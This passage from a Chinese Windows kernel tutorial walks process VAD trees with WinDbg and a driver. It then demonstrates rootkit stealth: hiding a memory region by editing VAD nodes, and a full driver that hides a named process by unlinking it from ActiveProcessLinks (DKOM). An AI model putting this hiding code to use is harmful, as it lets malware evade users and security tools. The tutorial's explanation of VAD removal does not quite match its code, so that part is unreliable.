但需要注意的是，栈并不受 `VAD` 树的管理，因为栈空间的分配和管理是由系统直接实现的。每个线程都拥有自己的 `TEB（Thread Environment Block）`结构体，其中包含了该线程的栈空间的起始地址、大小等信息。系统在创建线程时，会为该线程分配一段物理内存页，并映射到该线程的栈空间中，然后将栈空间的起始地址记录在该线程的 `TEB` 中。因此，栈空间的分配和管理是由系统直接实现的，不需要通过 `VAD` 树来管理。

```c
lyshark.com 0: kd> dt _MMVAD
nt!_MMVAD
   +0x000 Core             : _MMVAD_SHORT
   +0x040 u2               : <anonymous-tag>
   +0x048 Subsection       : Ptr64 _SUBSECTION
   +0x050 FirstPrototypePte : Ptr64 _MMPTE
   +0x058 LastContiguousPte : Ptr64 _MMPTE
   +0x060 ViewLinks        : _LIST_ENTRY
   +0x070 VadsProcess      : Ptr64 _EPROCESS
   +0x078 u4               : <anonymous-tag>
   +0x080 FileObject       : Ptr64 _FILE_OBJECT
```
结构体`MMVAD`则是每一个`VAD`内存块的属性，这个内存结构定义在WinDBG中可看到。



如上在`EPROCESS`结构中可以找到VAD结构的相对偏移`+0x658`以及进程VAD计数偏移`+0x668`，我们首先通过`!process 0 0`指令得到当前所有进程的`EPROCESS`结构，并选中进程。
```c
lyshark.com 0: kd> !process 0 0
PROCESS ffffe28fbb0860c0
    SessionId: 1  Cid: 11a8    Peb: 0035c000  ParentCid: 11c8
    DirBase: 309f3002  ObjectTable: ffffac87ba3da580  HandleCount: 145.
    Image: x64.exe
```
此处的`ffffe28fbb0860c0`正是我们所需要的`EPROCESS`结构。



当需要得到该进程的VAD结构时，只需要使用`!vad ffffe28fbb0860c0 + 0x658`来显示该进程的VAD树。



至于获取VAD有多少条，则可以直接使用`!vad ffffe28fbb0860c0 + 0x668`来获取到。



既然手动可以遍历出来，那么自动化也并不难，首先定义头文件`vad.h`同样这是微软定义，如果想要的到最新的，自己下载WinDBG调试内核输入命令。
```c
#pragma once
#include <ntifs.h>

typedef struct _MM_GRAPHICS_VAD_FLAGS        // 15 elements, 0x4 bytes (sizeof) 
{
    /*0x000*/     ULONG32      Lock : 1;                   // 0 BitPosition                   
    /*0x000*/     ULONG32      LockContended : 1;          // 1 BitPosition                   
    /*0x000*/     ULONG32      DeleteInProgress : 1;       // 2 BitPosition                   
    /*0x000*/     ULONG32      NoChange : 1;               // 3 BitPosition                   
    /*0x000*/     ULONG32      VadType : 3;                // 4 BitPosition                   
    /*0x000*/     ULONG32      Protection : 5;             // 7 BitPosition                   
    /*0x000*/     ULONG32      PreferredNode : 6;          // 12 BitPosition                  
    /*0x000*/     ULONG32      PageSize : 2;               // 18 BitPosition                  
    /*0x000*/     ULONG32      PrivateMemoryAlwaysSet : 1; // 20 BitPosition                  
    /*0x000*/     ULONG32      WriteWatch : 1;             // 21 BitPosition                  
    /*0x000*/     ULONG32      FixedLargePageSize : 1;     // 22 BitPosition                  
    /*0x000*/     ULONG32      ZeroFillPagesOptional : 1;  // 23 BitPosition                  
    /*0x000*/     ULONG32      GraphicsAlwaysSet : 1;      // 24 BitPosition                  
    /*0x000*/     ULONG32      GraphicsUseCoherentBus : 1; // 25 BitPosition                  
    /*0x000*/     ULONG32      GraphicsPageProtection : 3; // 26 BitPosition                  
}MM_GRAPHICS_VAD_FLAGS, *PMM_GRAPHICS_VAD_FLAGS;
typedef struct _MM_PRIVATE_VAD_FLAGS         // 15 elements, 0x4 bytes (sizeof) 
{
    /*0x000*/     ULONG32      Lock : 1;                   // 0 BitPosition                   
    /*0x000*/     ULONG32      LockContended : 1;          // 1 BitPosition                   
    /*0x000*/     ULONG32      DeleteInProgress : 1;       // 2 BitPosition                   
    /*0x000*/     ULONG32      NoChange : 1;               // 3 BitPosition                   
    /*0x000*/     ULONG32      VadType : 3;                // 4 BitPosition                   
    /*0x000*/     ULONG32      Protection : 5;             // 7 BitPosition                   
    /*0x000*/     ULONG32      PreferredNode : 6;          // 12 BitPosition                  
    /*0x000*/     ULONG32      PageSize : 2;               // 18 BitPosition                  
    /*0x000*/     ULONG32      PrivateMemoryAlwaysSet : 1; // 20 BitPosition                  
    /*0x000*/     ULONG32      WriteWatch : 1;             // 21 BitPosition                  
    /*0x000*/     ULONG32      FixedLargePageSize : 1;     // 22 BitPosition                  
    /*0x000*/     ULONG32      ZeroFillPagesOptional : 1;  // 23 BitPosition                  
    /*0x000*/     ULONG32      Graphics : 1;               // 24 BitPosition                  
    /*0x000*/     ULONG32      Enclave : 1;                // 25 BitPosition                  
    /*0x000*/     ULONG32      ShadowStack : 1;            // 26 BitPosition                  
}MM_PRIVATE_VAD_FLAGS, *PMM_PRIVATE_VAD_FLAGS;


typedef struct _MMVAD_FLAGS            // 9 elements, 0x4 bytes (sizeof) 
{
    /*0x000*/     ULONG32      Lock : 1;             // 0 BitPosition                  
    /*0x000*/     ULONG32      LockContended : 1;    // 1 BitPosition                  
    /*0x000*/     ULONG32      DeleteInProgress : 1; // 2 BitPosition                  
    /*0x000*/     ULONG32      NoChange : 1;         // 3 BitPosition                  
    /*0x000*/     ULONG32      VadType : 3;          // 4 BitPosition                  
    /*0x000*/     ULONG32      Protection : 5;       // 7 BitPosition                  
    /*0x000*/     ULONG32      PreferredNode : 6;    // 12 BitPosition                 
    /*0x000*/     ULONG32      PageSize : 2;         // 18 BitPosition                 
    /*0x000*/     ULONG32      PrivateMemory : 1;    // 20 BitPosition                 
}MMVAD_FLAGS, *PMMVAD_FLAGS;

typedef struct _MM_SHARED_VAD_FLAGS            // 11 elements, 0x4 bytes (sizeof) 
{
    /*0x000*/     ULONG32      Lock : 1;                     // 0 BitPosition                   
    /*0x000*/     ULONG32      LockContended : 1;            // 1 BitPosition                   
    /*0x000*/     ULONG32      DeleteInProgress : 1;         // 2 BitPosition                   
    /*0x000*/     ULONG32      NoChange : 1;                 // 3 BitPosition                   
    /*0x000*/     ULONG32      VadType : 3;                  // 4 BitPosition                   
    /*0x000*/     ULONG32      Protection : 5;               // 7 BitPosition                   
    /*0x000*/     ULONG32      PreferredNode : 6;            // 12 BitPosition                  
    /*0x000*/     ULONG32      PageSize : 2;                 // 18 BitPosition                  
    /*0x000*/     ULONG32      PrivateMemoryAlwaysClear : 1; // 20 BitPosition                  
    /*0x000*/     ULONG32      PrivateFixup : 1;             // 21 BitPosition                  
    /*0x000*/     ULONG32      HotPatchAllowed : 1;          // 22 BitPosition                  
}MM_SHARED_VAD_FLAGS, *PMM_SHARED_VAD_FLAGS;

typedef struct _MMVAD_FLAGS2             // 7 elements, 0x4 bytes (sizeof) 
{
    /*0x000*/     ULONG32      FileOffset : 24;        // 0 BitPosition                  
    /*0x000*/     ULONG32      Large : 1;              // 24 BitPosition                 
    /*0x000*/     ULONG32      TrimBehind : 1;         // 25 BitPosition                 
    /*0x000*/     ULONG32      Inherit : 1;            // 26 BitPosition                 
    /*0x000*/     ULONG32      NoValidationNeeded : 1; // 27 BitPosition                 
    /*0x000*/     ULONG32      PrivateDemandZero : 1;  // 28 BitPosition                 
    /*0x000*/     ULONG32      Spare : 3;              // 29 BitPosition                 
}MMVAD_FLAGS2, *PMMVAD_FLAGS2;

typedef struct _MMVAD_SHORT
{
    RTL_BALANCED_NODE VadNode;
    UINT32 StartingVpn;               /*0x18*/
    UINT32 EndingVpn;                 /*0x01C*/
    UCHAR StartingVpnHigh;
    UCHAR EndingVpnHigh;
    UCHAR CommitChargeHigh;
    UCHAR SpareNT64VadUChar;
    INT32 ReferenceCount;
    EX_PUSH_LOCK PushLock;            /*0x028*/
    struct
    {
        union
        {
            ULONG_PTR flag;
            MM_PRIVATE_VAD_FLAGS PrivateVadFlags;                        /*0x030*/
            MMVAD_FLAGS  VadFlags;
            MM_GRAPHICS_VAD_FLAGS GraphicsVadFlags;
            MM_SHARED_VAD_FLAGS   SharedVadFlags;
        }Flags;

    }u1;

    PVOID EventList;                        /*0x038*/

}MMVAD_SHORT, *PMMVAD_SHORT;

typedef struct _MMADDRESS_NODE
{
    ULONG64 u1;
    struct _MMADDRESS_NODE* LeftChild;
    struct _MMADDRESS_NODE* RightChild;
    ULONG64 StartingVpn;
    ULONG64 EndingVpn;
}MMADDRESS_NODE, *PMMADDRESS_NODE;

typedef struct _MMEXTEND_INFO     // 2 elements, 0x10 bytes (sizeof) 
{
    /*0x000*/     UINT64       CommittedSize;
    /*0x008*/     ULONG32      ReferenceCount;
    /*0x00C*/     UINT8        _PADDING0_[0x4];
}MMEXTEND_INFO, *PMMEXTEND_INFO;
struct _SEGMENT
{
    struct _CONTROL_AREA* ControlArea;
    ULONG TotalNumberOfPtes;
    ULONG SegmentFlags;
    ULONG64 NumberOfCommittedPages;
    ULONG64 SizeOfSegment;
    union
    {
        struct _MMEXTEND_INFO* ExtendInfo;
        void* BasedAddress;
    }u;
    ULONG64 SegmentLock;
    ULONG64 u1;
    ULONG64 u2;
    PVOID* PrototypePte;
    ULONGLONG ThePtes[0x1];
};

typedef struct _EX_FAST_REF
{
    union
    {
        PVOID Object;
        ULONG_PTR RefCnt : 3;
        ULONG_PTR Value;
    };
} EX_FAST_REF, *PEX_FAST_REF;

typedef struct _CONTROL_AREA                      // 17 elements, 0x80 bytes (sizeof) 
{
    /*0x000*/     struct _SEGMENT* Segment;
    union                                         // 2 elements, 0x10 bytes (sizeof)  
    {
        /*0x008*/         struct _LIST_ENTRY ListHead;              // 2 elements, 0x10 bytes (sizeof)  
        /*0x008*/         VOID*        AweContext;
    };
    /*0x018*/     UINT64       NumberOfSectionReferences;
    /*0x020*/     UINT64       NumberOfPfnReferences;
    /*0x028*/     UINT64       NumberOfMappedViews;
    /*0x030*/     UINT64       NumberOfUserReferences;
    /*0x038*/     ULONG32 u;                     // 2 elements, 0x4 bytes (sizeof)   
    /*0x03C*/     ULONG32 u1;                    // 2 elements, 0x4 bytes (sizeof)   
    /*0x040*/     struct _EX_FAST_REF FilePointer;              // 3 elements, 0x8 bytes (sizeof)   
    // 4 elements, 0x8 bytes (sizeof)   
}CONTROL_AREA, *PCONTROL_AREA;

typedef struct _SUBSECTION_
{
    struct _CONTROL_AREA* ControlArea;

}SUBSECTION, *PSUBSECTION;

typedef struct _MMVAD
{
    MMVAD_SHORT Core;
    union                 /*0x040*/
    {
        UINT32 LongFlags2;
        //现在用不到省略
        MMVAD_FLAGS2 VadFlags2;

    }u2;
    PSUBSECTION Subsection;               /*0x048*/
    PVOID FirstPrototypePte;        /*0x050*/
    PVOID LastContiguousPte;        /*0x058*/
    LIST_ENTRY ViewLinks;           /*0x060*/
    PEPROCESS VadsProcess;          /*0x070*/
    PVOID u4;                       /*0x078*/
    PVOID FileObject;               /*0x080*/
}MMVAD, *PMMVAD;

typedef struct _RTL_AVL_TREE         // 1 elements, 0x8 bytes (sizeof) 
{
    /*0x000*/     struct _RTL_BALANCED_NODE* Root;
}RTL_AVL_TREE, *PRTL_AVL_TREE;

typedef struct _VAD_INFO_
{
    ULONG_PTR pVad;
    ULONG_PTR startVpn;
    ULONG_PTR endVpn;
    ULONG_PTR pFileObject;
    ULONG_PTR flags;
}VAD_INFO, *PVAD_INFO;

typedef struct _ALL_VADS_
{
    ULONG nCnt;
    VAD_INFO VadInfos[1];
}ALL_VADS, *PALL_VADS;

typedef struct _MMSECTION_FLAGS                        // 27 elements, 0x4 bytes (sizeof) 
{
    /*0x000*/     UINT32       BeingDeleted : 1;                     // 0 BitPosition                   
    /*0x000*/     UINT32       BeingCreated : 1;                     // 1 BitPosition                   
    /*0x000*/     UINT32       BeingPurged : 1;                      // 2 BitPosition                   
    /*0x000*/     UINT32       NoModifiedWriting : 1;                // 3 BitPosition                   
    /*0x000*/     UINT32       FailAllIo : 1;                        // 4 BitPosition                   
    /*0x000*/     UINT32       Image : 1;                            // 5 BitPosition                   
    /*0x000*/     UINT32       Based : 1;                            // 6 BitPosition                   
    /*0x000*/     UINT32       File : 1;                             // 7 BitPosition                   
    /*0x000*/     UINT32       AttemptingDelete : 1;                 // 8 BitPosition                   
    /*0x000*/     UINT32       PrefetchCreated : 1;                  // 9 BitPosition                   
    /*0x000*/     UINT32       PhysicalMemory : 1;                   // 10 BitPosition                  
    /*0x000*/     UINT32       ImageControlAreaOnRemovableMedia : 1; // 11 BitPosition                  
    /*0x000*/     UINT32       Reserve : 1;                          // 12 BitPosition                  
    /*0x000*/     UINT32       Commit : 1;                           // 13 BitPosition                  
    /*0x000*/     UINT32       NoChange : 1;                         // 14 BitPosition                  
    /*0x000*/     UINT32       WasPurged : 1;                        // 15 BitPosition                  
    /*0x000*/     UINT32       UserReference : 1;                    // 16 BitPosition                  
    /*0x000*/     UINT32       GlobalMemory : 1;                     // 17 BitPosition                  
    /*0x000*/     UINT32       DeleteOnClose : 1;                    // 18 BitPosition                  
    /*0x000*/     UINT32       FilePointerNull : 1;                  // 19 BitPosition                  
    /*0x000*/     ULONG32      PreferredNode : 6;                    // 20 BitPosition                  
    /*0x000*/     UINT32       GlobalOnlyPerSession : 1;             // 26 BitPosition                  
    /*0x000*/     UINT32       UserWritable : 1;                     // 27 BitPosition                  
    /*0x000*/     UINT32       SystemVaAllocated : 1;                // 28 BitPosition                  
    /*0x000*/     UINT32       PreferredFsCompressionBoundary : 1;   // 29 BitPosition                  
    /*0x000*/     UINT32       UsingFileExtents : 1;                 // 30 BitPosition                  
    /*0x000*/     UINT32       PageSize64K : 1;                      // 31 BitPosition                  
}MMSECTION_FLAGS, *PMMSECTION_FLAGS;

typedef struct _SECTION                          // 9 elements, 0x40 bytes (sizeof) 
{
    /*0x000*/     struct _RTL_BALANCED_NODE SectionNode;       // 6 elements, 0x18 bytes (sizeof) 
    /*0x018*/     UINT64       StartingVpn;
    /*0x020*/     UINT64       EndingVpn;
    /*0x028*/     union {
        PCONTROL_AREA   ControlArea;
        PVOID   FileObject;

    }u1;                   // 4 elements, 0x8 bytes (sizeof)  
    /*0x030*/     UINT64       SizeOfSection;
    /*0x038*/     union {
        ULONG32 LongFlags;
        MMSECTION_FLAGS Flags;
    }u;                    // 2 elements, 0x4 bytes (sizeof)  
    struct                                       // 3 elements, 0x4 bytes (sizeof)  
    {
        /*0x03C*/         ULONG32      InitialPageProtection : 12; // 0 BitPosition                   
        /*0x03C*/         ULONG32      SessionId : 19;             // 12 BitPosition                  
        /*0x03C*/         ULONG32      NoValidationNeeded : 1;     // 31 BitPosition                  
    };
}SECTION, *PSECTION;
```

引入`vad.h`头文件，并写入如下代码，此处的`eprocess_offset_VadRoot`以及`eprocess_offset_VadCount `则是上方得出的相对于`EPROCESS`结构的偏移值，每个系统都不一样，版本不同偏移值会不同。
```c
#include "vad.h"
#include <ntifs.h>

// 定义VAD相对于EProcess头部偏移值
#define eprocess_offset_VadRoot 0x658
#define eprocess_offset_VadCount 0x668

VOID EnumVad(PMMVAD Root, PALL_VADS pBuffer, ULONG nCnt)
{
    if (!Root || !pBuffer || !nCnt)
    {
        return;
    }

    __try
    {
        if (nCnt > pBuffer->nCnt)
        {
            // 得到起始页与结束页
            ULONG64 endptr = (ULONG64)Root->Core.EndingVpnHigh;
            endptr = endptr << 32;

            ULONG64 startptr = (ULONG64)Root->Core.StartingVpnHigh;
            startptr = startptr << 32;

            // 得到根节点
            pBuffer->VadInfos[pBuffer->nCnt].pVad = (ULONG_PTR)Root;

            // 起始页: startingVpn * 0x1000
            pBuffer->VadInfos[pBuffer->nCnt].startVpn = (startptr | Root->Core.StartingVpn) << PAGE_SHIFT;

            // 结束页: EndVpn * 0x1000 + 0xfff
            pBuffer->VadInfos[pBuffer->nCnt].endVpn = ((endptr | Root->Core.EndingVpn) << PAGE_SHIFT) + 0xfff;

            // VAD标志 928 = Mapped    1049088 = Private   ....
            pBuffer->VadInfos[pBuffer->nCnt].flags = Root->Core.u1.Flags.flag;

            // 验证节点可读性
            if (MmIsAddressValid(Root->Subsection) && MmIsAddressValid(Root->Subsection->ControlArea))
            {
                if (MmIsAddressValid((PVOID)((Root->Subsection->ControlArea->FilePointer.Value >> 4) << 4)))
                {
                    pBuffer->VadInfos[pBuffer->nCnt].pFileObject = ((Root->Subsection->ControlArea->FilePointer.Value >> 4) << 4);
                }
            }
            pBuffer->nCnt++;
        }

        if (MmIsAddressValid(Root->Core.VadNode.Left))
        {
            // 递归枚举左子树
            EnumVad((PMMVAD)Root->Core.VadNode.Left, pBuffer, nCnt);
        }

        if (MmIsAddressValid(Root->Core.VadNode.Right))
        {
            // 递归枚举右子树
            EnumVad((PMMVAD)Root->Core.VadNode.Right, pBuffer, nCnt);
        }
    }
    __except (1)
    {
    }
}

BOOLEAN EnumProcessVad(ULONG Pid, PALL_VADS pBuffer, ULONG nCnt)
{
    PEPROCESS Peprocess = 0;
    PRTL_AVL_TREE Table = NULL;
    PMMVAD Root = NULL;

    // 通过进程PID得到进程EProcess
    if (NT_SUCCESS(PsLookupProcessByProcessId((HANDLE)Pid, &Peprocess)))
    {
        // 与偏移相加得到VAD头节点
        Table = (PRTL_AVL_TREE)((UCHAR*)Peprocess + eprocess_offset_VadRoot);
        if (!MmIsAddressValid(Table) || !eprocess_offset_VadRoot)
        {
            return FALSE;
        }

        __try
        {
            // 取出头节点
            Root = (PMMVAD)Table->Root;

            if (nCnt > pBuffer->nCnt)
            {
                // 得到起始页与结束页
                ULONG64 endptr = (ULONG64)Root->Core.EndingVpnHigh;
                endptr = endptr << 32;

                ULONG64 startptr = (ULONG64)Root->Core.StartingVpnHigh;
                startptr = startptr << 32;

                pBuffer->VadInfos[pBuffer->nCnt].pVad = (ULONG_PTR)Root;

                // 起始页: startingVpn * 0x1000
                pBuffer->VadInfos[pBuffer->nCnt].startVpn = (startptr | Root->Core.StartingVpn) << PAGE_SHIFT;

                // 结束页: EndVpn * 0x1000 + 0xfff
                pBuffer->VadInfos[pBuffer->nCnt].endVpn = (endptr | Root->Core.EndingVpn) << PAGE_SHIFT;
                pBuffer->VadInfos[pBuffer->nCnt].flags = Root->Core.u1.Flags.flag;

                if (MmIsAddressValid(Root->Subsection) && MmIsAddressValid(Root->Subsection->ControlArea))
                {
                    if (MmIsAddressValid((PVOID)((Root->Subsection->ControlArea->FilePointer.Value >> 4) << 4)))
                    {
                        pBuffer->VadInfos[pBuffer->nCnt].pFileObject = ((Root->Subsection->ControlArea->FilePointer.Value >> 4) << 4);
                    }
                }
                pBuffer->nCnt++;
            }

            // 枚举左子树
            if (Table->Root->Left)
            {
                EnumVad((MMVAD*)Table->Root->Left, pBuffer, nCnt);
            }

            // 枚举右子树
            if (Table->Root->Right)
            {
                EnumVad((MMVAD*)Table->Root->Right, pBuffer, nCnt);
            }
        }
        __finally
        {
            ObDereferenceObject(Peprocess);
        }
    }
    else
    {
        return FALSE;
    }

    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark \n"));

    typedef struct
    {
        ULONG nPid;
        ULONG nSize;
        PALL_VADS pBuffer;
    }VADProcess;

    __try
    {
        VADProcess vad = { 0 };

        vad.nPid = 4520;

        // 默认有1000个线程
        vad.nSize = sizeof(VAD_INFO) * 0x5000 + sizeof(ULONG);

        // 分配临时空间
        vad.pBuffer = (PALL_VADS)ExAllocatePool(PagedPool, vad.nSize);

        // 根据传入长度得到枚举数量
        ULONG nCount = (vad.nSize - sizeof(ULONG)) / sizeof(VAD_INFO);

        // 枚举VAD
        EnumProcessVad(vad.nPid, vad.pBuffer, nCount);


        // 输出VAD
        for (size_t i = 0; i < vad.pBuffer->nCnt; i++)
        {
            DbgPrint("StartVPN = %p | ", vad.pBuffer->VadInfos[i].startVpn);
            DbgPrint("EndVPN = %p | ", vad.pBuffer->VadInfos[i].endVpn);
            DbgPrint("PVAD = %p | ", vad.pBuffer->VadInfos[i].pVad);
            DbgPrint("Flags = %d | ", vad.pBuffer->VadInfos[i].flags);
            DbgPrint("pFileObject = %p \n", vad.pBuffer->VadInfos[i].pFileObject);
        }
    }
    __except (1)
    {
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

程序运行后输出效果如下图所示；



### 4.7 运用VAD隐藏R3内存思路

在进程的`_EPROCESS`中有一个`_RTL_AVL_TREE`类型的`VadRoot`成员，它是一个存放进程内存块的二叉树结构，如果我们找到了这个二叉树中我们想要隐藏的内存，直接将这个内存在二叉树中`抹去`，其实是让上一个节点的`EndingVpn`指向下个节点的`EndingVpn`，类似于摘链隐藏进程，就可以达到隐藏的效果。

在Windows内核中，VadRoot成员是一个指向二叉树结构的指针，用于存储一个进程的虚拟地址描述符（VAD）对象。每个VAD对象描述了进程的一段虚拟地址空间。VAD对象的起始地址和结束地址都是按照一定顺序组成的二叉树结构来管理的，以便于快速地查找和操作。

如果想要隐藏某个内存区域，可以通过修改相应的VAD对象来实现。具体来说，可以在VAD树中搜索到包含该内存区域的VAD对象，然后将其从树中移除。这个过程可以通过将该VAD对象的父节点的`LeftChild`或`RightChild`指向该VAD对象的子节点来实现。这样一来，该VAD对象就不再在VAD树中了，而该内存区域也就被隐藏了。

通过`dt _EPROCESS`得到EProcess结构`VadRoot`如下:



例如当调用`VirtualAlloc`分配内存空间。
```c
#include <iostream>
#include <Windows.h>

int main(int argc, char *argv[])
{
    LPVOID p1 = VirtualAlloc(NULL, 0x10000, MEM_COMMIT, PAGE_READWRITE);
    LPVOID p2 = VirtualAlloc(NULL, 0x10000, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    std::cout << "address = " << p1 << std::endl;
    std::cout << "address2 = " << p2 << std::endl;

    getchar();
    return 0;
}
```

运行程序得到两个内存地址`0xf00000`和`0xfe0000`



通过`!process 0 0`枚举所有进程，并得到我们所需进程的EProcess地址。



检查进程`!process ffffe28fbb451080`得到`VAD`地址`ffffe28fbe0b7e40`



此处以`0xf00000`为例，这里我们看到`windbg`中的值和进程中分配的内存地址并不完全一样，这是因为`x86 cpu`默认内存页大小`4k`也就是`0x1000`，所以这里还要再乘以`0x1000`才是真正的内存地址。



所以计算结果刚好等于`0xf00000`



而隐藏进程内特定内存段核心代码在于`p1->EndingVpn = p2->EndingVpn;`将VAD前后节点连接。
```c
PMMVAD p1 = vad_enum((PMMVAD)VadRoot, 0x3a0); // 遍历第一个结点
PMMVAD p2 = vad_enum((PMMVAD)VadRoot, 0x3b0); // 遍历找到第二个结点
if (p1 && p2)
{
p1->EndingVpn = p2->EndingVpn; // 将第二个结点完全隐藏起来
}
```

需要注意的是，这种方法只是将VAD对象从树中移除，并没有真正释放内存区域，如果想要真正释放该内存区域，还需要调用相应的内核函数来释放该内存。此外，这种方法可能会破坏系统稳定性，因为隐藏进程的行为可能会影响系统的正常运行。因此，建议谨慎使用这种方法。

### 4.8 内核摘链DKOM进程隐藏

DKOM（Direct Kernel Object Manipulation，直接内核对象操作）是一种攻击技术，它可以通过直接访问操作系统内核对象，实现对系统的控制和操纵。在这种攻击中，攻击者可以使用一些技巧来隐藏自己的驱动程序，从而使其难以被检测和清除。其中，一种常见的技巧就是在操作系统内核对象中隐藏进程信息，使进程在系统中不可见。

在Windows操作系统中，每个进程都有一个EPROCESS结构和一个或多个ETHREAD结构，它们记录了有关进程和线程的重要信息。在实现进程隐藏时，攻击者可以直接访问系统的EPROCESS链表，并将某个进程的EPROCESS结构从链表中摘除。这样，该进程在系统中就不再可见，而操作系统的其他组件则不会注意到这个进程的存在。

DKOM 隐藏进程的本质是操作EPROCESS结构体，EPROCESS结构体中包含了系统中的所有进程相关信息，还有很多指向其他结构的指针，首先我们可以通过WinDBG在内核调试模式下输入`dt_eprocess` 即可查看到当前的EPROCESS结构体的偏移信息，结构较多，但常用的就下面这几个。

结构体中包含了系统中的所有进程相关信息，通过WinDBG在内核调试模式下输入`dt_eprocess` 即可查看到当前的EPROCESS结构体的偏移信息。
```c
kd> dt_eprocess

nt!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x160 ProcessLock      : _EX_PUSH_LOCK
   +0x168 CreateTime       : _LARGE_INTEGER                     // 创建时间
   +0x170 ExitTime         : _LARGE_INTEGER                     // 退出时间
   +0x180 UniqueProcessId  : Ptr64 Void                         // 进程的PID
   +0x188 ActiveProcessLinks : _LIST_ENTRY                      // 活动进程链表
   +0x200 ObjectTable      : Ptr64 _HANDLE_TABLE                // 指向句柄表的指针
   +0x2d8 Session          : Ptr64 Void                         // 会话列表
   +0x2e0 ImageFileName    : [15] UChar                         // 进程的名称
   +0x308 ThreadListHead   : _LIST_ENTRY                        // 进程中的线程链表结构
   +0x320 Wow64Process     : Ptr64 Void                         // 32位进程链表
   +0x328 ActiveThreads    : Uint4B                             // 活动的线程
   +0x32c ImagePathHash    : Uint4B                             // 镜像路径的Hash值
   +0x338 Peb              : Ptr64 _PEB                         // 指向PEB结构的指针
   +0x440 Flags            : Uint4B                             // 进程标志
```
要实现进程的隐藏我们需要关注结构中的 `ActiveProcessLinks` 该指针把每个进程的EPROCESS结构体连接成了双向链表，我们可以使用 `ZwQuerySystemInformation` 这个函数来遍历出所有的进程信息，要实现进程的隐藏，只需要将某个进程的EPROCESS从结构体中摘除，那么通过`ZwQuerySystemInformation`函数就无法遍历出被摘链的进程了，从而实现了进程的隐藏。

进程隐藏可分为三个步骤：

 - 使用 ZwQuerySystemInformation 函数遍历出所有的进程信息，通过访问 SYSTEM_PROCESS_INFORMATION 结构体中的 NextEntryOffset 字段，可以遍历出系统中的所有进程信息。
 - 针对需要隐藏的进程，将其在 EPROCESS 结构体中的 ActiveProcessLinks 链表中摘除。
 - 由于被隐藏的进程已经从 ActiveProcessLinks 链表中移除，因此再次遍历 SYSTEM_PROCESS_INFORMATION 结构体，就无法再次遍历到该进程的信息。

在实现进程隐藏之前，我们需要通过代码的方式获取到当前系统中所有进程的EPROCESS信息，我们可以通过 `PsLookupProcessByProcessId`函数获取到指定进程的ID，然后通过 `PsGetProcessImageFileName` 函数取出结构名称，并通过 `_stricmp` 判断是否是我们想要隐藏的程序。

在实现进程隐藏之前，我们需要获取到当前系统中所有进程的EPROCESS信息，可以使用以下步骤：

 - 使用 PsLookupProcessByProcessId 函数获取指定进程的 EPROCESS 结构体指针，该函数需要传入进程的 PID（进程ID）。
 - 使用 PsGetProcessImageFileName 函数获取进程的镜像文件名称，该函数需要传入进程的 EPROCESS 结构体指针。
 - 判断进程的镜像文件名称是否为我们要隐藏的进程。这里可以使用 `_stricmp` 函数进行字符串比较，该函数忽略大小写。

如果进程的镜像文件名称与我们要隐藏的进程名称相同，则可以将该进程的 EPROCESS 结构体从 ActiveProcessLinks 双向链表中移除，从而实现进程的隐藏。

先来实现一个简单的函数`GetProcessObjectByName`该函数用于接收一个进程名，并输出该进程的`PEPROCESS`结构；

```c
#include <ntifs.h>

NTKERNELAPI NTSTATUS PsLookupProcessByProcessId(HANDLE ProcessId, PEPROCESS *Process);
NTKERNELAPI CHAR* PsGetProcessImageFileName(PEPROCESS Process);

VOID UnDriver(PDRIVER_OBJECT driver)
{
  DbgPrint(("驱动程序卸载成功! \n"));
}

PEPROCESS GetProcessObjectByName(char *name)
{
  SIZE_T temp;
  for (temp = 100; temp<10000; temp += 4)
  {
    NTSTATUS status;
    PEPROCESS ep;
    status = PsLookupProcessByProcessId((HANDLE)temp, &ep);
    if (NT_SUCCESS(status))
    {
      char *pn = PsGetProcessImageFileName(ep);
      if (_stricmp(pn, name) == 0)
        return ep;
    }
  }
  return NULL;
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
  PEPROCESS PRoc = NULL;
  PRoc = GetProcessObjectByName("C32Asm.exe");
  DriverObject->DriverUnload = UnDriver;
  return STATUS_SUCCESS;
}
```
得到句柄以后直接摘除进程的结构即可实现隐藏，该代码只找了`Windows10`系统下的偏移地址，故只能在`Windows10`系统下使用，如果读者希望在其他系统中使用该代码片段，则读者需自行寻找其他系统中的偏移值。
```c
#include <ntifs.h>

#define PROCESS_ACTIVE_PROCESS_LINKS_OFFSET 0x2f0

NTKERNELAPI NTSTATUS PsLookupProcessByProcessId(HANDLE ProcessId, PEPROCESS *Process);
NTKERNELAPI CHAR* PsGetProcessImageFileName(PEPROCESS Process);

VOID UnDriver(PDRIVER_OBJECT driver)
{
  DbgPrint(("驱动程序卸载成功! \n"));
}

PEPROCESS GetProcessObjectByName(char *name)
{
  SIZE_T temp;
  for (temp = 100; temp<10000; temp += 4)
  {
    NTSTATUS status;
    PEPROCESS ep;
    status = PsLookupProcessByProcessId((HANDLE)temp, &ep);
    if (NT_SUCCESS(status))
    {
      char *pn = PsGetProcessImageFileName(ep);
      if (_stricmp(pn, name) == 0)
        return ep;
    }
  }
  return NULL;
}

// 隐藏进程
VOID HideProcess(PLIST_ENTRY ListEntry)
{
  KIRQL OldIrql;
  OldIrql = KeRaiseIrqlToDpcLevel();
  if (ListEntry->Flink != ListEntry && ListEntry->Blink != ListEntry && ListEntry->Blink->Flink == ListEntry && ListEntry->Flink->Blink == ListEntry)
  {
    ListEntry->Flink->Blink = ListEntry->Blink;
    ListEntry->Blink->Flink = ListEntry->Flink;
    ListEntry->Flink = ListEntry;
    ListEntry->Blink = ListEntry;
  }
  KeLowerIrql(OldIrql);
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
  PEPROCESS PRoc = NULL;
  PRoc = GetProcessObjectByName("lyshark.exe");

  // 摘除结构中的lyshark.exe实现驱动隐藏
  HideProcess((PLIST_ENTRY)((ULONG64)PRoc + PROCESS_ACTIVE_PROCESS_LINKS_OFFSET));
  DbgPrint("[*] 进程lyshark.exe已被隐藏 \n");

  DriverObject->DriverUnload = UnDriver;
  return STATUS_SUCCESS;
}
```

